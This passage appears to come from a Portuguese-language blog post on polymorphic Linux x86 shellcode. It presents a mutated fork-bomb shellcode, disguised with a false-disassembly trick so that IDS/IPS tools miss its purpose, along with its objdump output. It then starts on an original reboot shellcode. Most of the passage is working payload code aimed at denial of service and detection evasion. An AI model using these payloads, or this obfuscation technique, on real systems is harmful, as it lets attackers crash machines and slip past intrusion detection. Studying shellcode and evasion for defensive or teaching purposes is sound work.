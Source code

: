 Modifiquemo-lo.

{% highlight asm %}
_start:
xor edi, edi
jmp $+3
db 0xe8
mov dl, 29
xchg edi, eax
sub eax, 27
int 0x80
jmp _start
{% endhighlight %} [//]: # (_)

Na versão mutated, utilizei o register EDI para salvar o valor 29 (\__NR_pause) e
posteriormente o copiar para EAX, quando então ele é subtraído, restando-lhe o
valor 2 da syscall fork. Fiz uso também da técnica de [false
disassembly](http://www.ouah.org/linux-anti-debugging.txt) (obfuscated assembly)
com a JMP sobre o byte E8 (opcode da instrução CALL). Vejam a saída do objdump.

{% highlight console %}
08048060 <_start>:
 8048060: 31 ff                 xor    edi,edi
 8048062: eb 01                 jmp    8048065 <_start+0x5>
 8048064: e8 b2 1d 97 83        call   8b9b9e1b <_end+0x83970dab>
 8048069: e8 1b cd 80 eb        call   f3854d89 <_end+0xeb80bd19>
 804806e: f1                    icebp
{% endhighlight %} [//]: # (_)

Se as ferramentas IDS/IPS não utilizarem uma análise profunda como a
[GetPC](http://skypher.com/wiki/index.php/Hacking/Shellcode/GetPC) ([Recursive
Traversal](http://resources.infosecinstitute.com/linear-sweep-vs-recursive-disassembling-algorithm/)),
a finalidade do shellcode não será identificada.

Original: 7 bytes<br>
Mutated: 15 bytes

*Next.*

##2nd shellcode - reboot

Original [here](http://shell-storm.org/shellcode/files/shellcode-639.php) (AT&T syntax).

{% highlight asm %}
mov    $0x24,%al
int    $0x80
xor    %eax,%eax
mov    $0x58,%al
mov    $0xfee1dead,%ebx
mov    $0x28121969,%ecx
mov    $0x1234567,%edx
int    $0x80
xor    %eax,%eax
mov    $0x1,%al
xor    %ebx,%ebx
int    $0x80
{% endhighlight %}

